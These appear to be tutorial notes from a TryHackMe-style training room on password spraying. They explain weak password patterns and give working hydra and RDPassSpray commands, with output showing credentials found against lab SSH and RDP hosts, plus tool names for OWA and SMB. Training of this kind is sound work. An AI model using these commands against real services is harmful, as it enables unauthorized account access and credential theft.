 This note will teach the fundamentals of a password spraying attack and the tools needed to perform various attack scenarios against common online services.

Password Spraying is an effective technique used to identify valid credentials. Nowadays, password spraying is considered one of the common password attacks for discovering weak passwords. This technique can be used against various online services and authentication systems, such as SSH, SMB, RDP, SMTP, Outlook Web Application, etc. A brute-force attack targets a specific username to try many weak and predictable passwords. While a password spraying attack targets many usernames using one common weak password, which could help avoid an account lockout policy. The following figure explains the concept of password spraying attacks where the attacker utilizes one common password against multiple users.

![](./img/Pasted%20image%2020240127210636.png)

Common and weak passwords often follow a pattern and format. Some commonly used passwords and their overall format can be found below.

- The current season followed by the current year (SeasonYear). For example, **Fall2020**, **Spring2021**, etc.
- The current month followed by the current year (MonthYear). For example, **November2020**, **March2021**, etc.
- Using the company name along with random numbers (CompanyNameNumbers). For example, TryHackMe01, TryHackMe02.  

If a password complexity policy is enforced within the organization, we may need to create a password that includes symbols to fulfill the requirement, such as October2021!, Spring2021!, October2021@, etc. **To be successful in the password spraying attack, we need to enumerate the target and create a list of valid usernames (or email addresses list)**.

Next, we will apply the password spraying technique using different scenarios against various services, including:

- SSH
- RDP
- Outlook web access (OWA) portal  
    
- SMB

### SSH

Assume that we have already enumerated the system and created a valid username list.

```shell
user@THM:~# cat usernames-list.txt
admin
victim
dummy
adm
sammy
```

Here we can use hydra to perform the password spraying attack against the SSH service using the Spring2021 password.

````shell 
user@THM:~$ hydra -L usernames-list.txt -p Spring2021 ssh://10.1.1.10
[INFO] Successful, password authentication is supported by ssh://10.1.1.10:22
[22][ssh] host: 10.1.1.10 login: victim password: Spring2021
[STATUS] attack finished for 10.1.1.10 (waiting for children to complete tests)
1 of 1 target successfully completed, 1 valid password found
````

Note that L is to load the list of valid usernames, and -p uses the Spring2021 password against the SSH service at 10.1.1.10. The above output shows that we have successfully found credentials.

### RDP

Let's assume that we found an exposed RDP service on port 3026. We can use a tool such as [RDPassSpray](https://github.com/xFreed0m/RDPassSpray) to password spray against RDP. First, install the tool on your attacking machine by following the installation instructions in the tool’s GitHub repo. As a new user of this tool, we will start by executing the python3 RDPassSpray.py -h command to see how the tools can be used:

```shell
user@THM: python3 RDPassSpray.py -h
usage: RDPassSpray.py [-h] (-U USERLIST | -u USER  -p PASSWORD | -P PASSWORDLIST) (-T TARGETLIST | -t TARGET) [-s SLEEP | -r minimum_sleep maximum_sleep] [-d DOMAIN] [-n NAMES] [-o OUTPUT] [-V]

optional arguments:
  -h, --help            show this help message and exit
  -U USERLIST, --userlist USERLIST
                        Users list to use, one user per line
  -u USER, --user USER  Single user to use
  -p PASSWORD, --password PASSWORD
                        Single password to use
  -P PASSWORDLIST, --passwordlist PASSWORDLIST
                        Password list to use, one password per line
  -T TARGETLIST, --targetlist TARGETLIST
                        Targets list to use, one target per line
  -t TARGET, --target TARGET
                        Target machine to authenticate against
  -s SLEEP, --sleep SLEEP
                        Throttle the attempts to one attempt every # seconds, can be randomized by passing the value 'random' - default is 0
  -r minimum_sleep maximum_sleep, --random minimum_sleep maximum_sleep
                        Randomize the time between each authentication attempt. Please provide minimun and maximum values in seconds
  -d DOMAIN, --domain DOMAIN
                        Domain name to use
  -n NAMES, --names NAMES
                        Hostnames list to use as the source hostnames, one per line
  -o OUTPUT, --output OUTPUT
                        Output each attempt result to a csv file
  -V, --verbose         Turn on verbosity to show failed attempts
```

Now, let's try using the (-u) option to specify the victim as a username and the (-p) option set the Spring2021!. The (-t) option is to select a single host to attack.

```shell
user@THM: python3 RDPassSpray.py -u victim -p Spring2021! -t 10.100.10.240:3026
[13-02-2021 16:47] - Total number of users to test: 1
[13-02-2021 16:47] - Total number of password to test: 1
[13-02-2021 16:47] - Total number of attempts: 1
[13-02-2021 16:47] - [*] Started running at: 13-02-2021 16:47:40
[13-02-2021 16:47] - [+] Cred successful (maybe even Admin access!): victim :: Spring2021!
```

The above output shows that we successfully found valid credentials victim:Spring2021!. Note that we can specify a domain name using the -d option if we are in an Active Directory environment.

```shell
user@THM: python3 RDPassSpray.py -U usernames-list.txt -p Spring2021! -d THM-labs -T RDP_servers.txt
```

There are various tools that perform a spraying password attack against different services, such as:

### Outlook web access (OWA) portal  

Tools:

- [SprayingToolkit](https://github.com/byt3bl33d3r/SprayingToolkit) (atomizer.py)
- [MailSniper](https://github.com/dafthack/MailSniper)

### SMB

- Tool: Metasploit (auxiliary/scanner/smb/smb_login)


